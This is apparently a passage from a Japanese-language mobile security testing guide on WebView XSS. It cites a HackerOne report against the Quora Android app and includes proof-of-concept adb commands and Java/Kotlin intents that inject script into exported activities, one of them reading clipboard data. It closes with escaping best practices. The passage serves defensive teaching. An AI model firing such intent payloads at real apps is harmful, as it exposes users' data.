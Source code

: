 Sergey Bobrov はこれを以下の [HackerOne report](https://hackerone.com/reports/189793 "[Android] XSS via start ContentActivity") で使用しました。HTML パラメータへの任意の入力が Quora の ActionBarContentActivity で信頼されます。ペイロードは adb の使用、ModalContentActivity を介したクリップボードデータ、サードパーティアプリケーションからのインテントに成功しました。

- ADB

  ```bash
  $ adb shell
  $ am start -n com.quora.android/com.quora.android.ActionBarContentActivity \
  -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
  ```

- Clipboard Data

  ```bash
  $ am start -n com.quora.android/com.quora.android.ModalContentActivity  \
  -e url 'http://test/test' -e html \
  '<script>alert(QuoraAndroid.getClipboardData());</script>'
  ```

- 3rd party Intent in Java or Kotlin:

  ```java
  Intent i = new Intent();
  i.setComponent(new ComponentName("com.quora.android",
  "com.quora.android.ActionBarContentActivity"));
  i.putExtra("url","http://test/test");
  i.putExtra("html","XSS PoC <script>alert(123)</script>");
  view.getContext().startActivity(i);
  ```

  ```kotlin
  val i = Intent()
  i.component = ComponentName("com.quora.android",
  "com.quora.android.ActionBarContentActivity")
  i.putExtra("url", "http://test/test")
  i.putExtra("html", "XSS PoC <script>alert(123)</script>")
  view.context.startActivity(i)
  ```

WebView を使用してリモートウェブサイトを表示する場合、HTML をエスケープする負担はサーバ側に移ります。XSS の欠陥がウェブサーバーに存在する場合、これを使用して WebView のコンテキストでスクリプトを実行できます。したがって、ウェブアプリケーションソースコードの静的解析を実行することが重要です。

以下のベストプラクティスに準じていることを確認します。

- 絶対に必要でない限り、信頼できないデータを HTML, JavaScript, 他の解釈されるコンテキストで処理していません。
- エスケープ文字には HTML エンティティエンコーディングなどの適切なエンコーディングが適用されています。注：エスケープのルールは HTML が他のコード内にネストされていると複雑になります。例えば、JavaScript ブロック内にある URL を処理するなどです。

レスポンスでのデータの処理方法を検討します。例えば、データが HTML コンテキストで処理される場合に、エスケープする必要がある六つの制御文字です。

| 文字 | エスケープ後 |
| :-------------: |:-------------:|
| & | &amp;amp;|
| < | &amp;lt; |
| > | &amp;gt;|
| " | &amp;quot;|
| ' | &amp;#x27;|
| / | &amp;#x2F;|
